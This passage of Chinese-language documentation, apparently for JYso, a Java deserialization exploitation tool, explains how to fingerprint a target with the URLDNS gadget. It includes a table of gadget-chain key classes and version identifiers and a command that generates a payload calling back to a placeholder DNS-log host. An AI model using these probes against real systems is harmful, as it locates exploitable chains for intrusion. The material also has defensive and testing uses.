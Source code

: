 ### 2.4.3 URLDNS 探测目标类

为了解决有反序列化利用点但是无链可用的状态，本项目提供了基于 URLDNS 探测目标类的功能。这条链会根据目标环境中不同的类是否存在来判断系统环境、依赖版本，主要包含如下表格中的内容：

| DNSLOG 关键字                               | 对应链                  | 关键类                                                       | 备注                                                         |
| ------------------------------------------- | ----------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| cc31or321<br />cc322                        | CommonsCollections13567 | org.apache.commons.collections.functors.ChainedTransformer<br />org.apache.commons.collections.ExtendedProperties$1 | CommonsCollections1/3/5/6/7<br />需要<=3.2.1版本             |
| cc40<br />cc41                              | CommonsCollections24    | org.apache.commons.collections4.functors.ChainedTransformer<br />org.apache.commons.collections4.FluentIterable | CommonsCollections2/4链<br />需要4-4.0版本                   |
| cb17<br />cb18x<br />cb19x                  | CommonsBeanutils2       | org.apache.commons.beanutils.MappedPropertyDescriptor\$1<br />org.apache.commons.beanutils.DynaBeanMapDecorator\$MapEntry<br />org.apache.commons.beanutils.BeanIntrospectionData | 1.7x-1.8x为-3490850999041592962<br />1.9x为-2044202215314119608 |
| c3p092x<br />c3p095x                        | C3P0                    | com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase<br />com.mchange.v2.c3p0.test.AlwaysFailDataSource | 0.9.2pre2-0.9.5pre8为7387108436934414104<br />0.9.5pre9-0.9.5.5为7387108436934414104 |
| ajw                                         | AspectJWeaver           | org.aspectj.weaver.tools.cache.SimpleCache                   | AspectJWeaver,需要cc31                                       |
| bsh20b4<br />bsh20b5<br />bsh20b6           | bsh                     | bsh.CollectionManager\$1<br />bsh.engine.BshScriptEngine<br />bsh.collection.CollectionIterator\$1 | 2.0b4为4949939576606791809<br />2.0b5为4041428789013517368<br />2.0.b6无法反序列化 |
| groovy1702311<br />groovy24x<br />groovy244 | Groovy                  | org.codehaus.groovy.reflection.ClassInfo\$ClassInfoSet<br />groovy.lang.Tuple2<br />org.codehaus.groovy.runtime.dgm\$1170 | 2.4.x为-8137949907733646644<br />2.3.x为1228988487386910280  |
| becl                                        | Becl                    | com.sun.org.apache.bcel.internal.util.ClassLoader            | JDK<8u251                                                    |
| Jdk7u21                                     | Jdk7u21                 | com.sun.corba.se.impl.orbutil.ORBClassLoader                 | JDK<=7u21                                                    |
| JRE8u20                                     | JRE8u20                 | javax.swing.plaf.metal.MetalFileChooserUI\$DirectoryComboBoxModel\$1 | 7u25<=JDK<=8u20<br />这个检测不完美,8u25版本以及JDK<=7u21会误报<br />可综合Jdk7u21来看 |
| linux<br />windows                          | winlinux                | sun.awt.X11.AwtGraphicsConfigData<br />sun.awt.windows.WButtonPeer | windows/linux版本判断                                        |
| jackson2100                                 | jackson                 | com.fasterxml.jackson.databind.node.NodeSerialization        |                                                              |
| ROME                                        | ROME                    | com.sun.syndication.feed.impl.ToStringBean<br />com.rometools.rome.feed.impl.ObjectBean |                                                              |
| SpringAOP                                   | fastjon<br /> jackson   | org.springframework.aop.target.HotSwappableTargetSource.HotSwappableTargetSource |                                                              |
| fastjson                                    | fastjon                 | com.alibaba.fastjson.JSONArray                               |                                                              |
|                                             | all                     |                                                              | 全部检测                                                     |

本项目参考了 kezibei 师傅的 URLDNS 项目，实际情况可能有如下几种情况导致问题：

- 反序列时遇到黑名单，可能导致后面的类的 dnslog 出不来；
- 反序列化流程中由于种种情况报错可能导致出不来。

因此这里还是提供了 all/common/指定类 三种探测方式：

- all：探测全部的类；
- common：探测不常在黑名单中的 CommonsBeanutils2/C3P0/AspectJWeaver/bsh/winlinux；
- 指定类：使用对应链中的关键字 CommonsCollections24:xxxx.dns.log 。

示例：`all:xxxxxx.dns.log`

```shell
java -jar JYso-[version].jar -yso 1 -g URLDNS -p 'all:xxxxxx.dns.log'
```

### 2.4.4 其他利用链的拓展

对于 BeanShell1 及 Clojure 这两个基于脚本语言解析的漏利用方式。


[//]: # (进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径，程序会尝试自动缩减类字节码的大小。)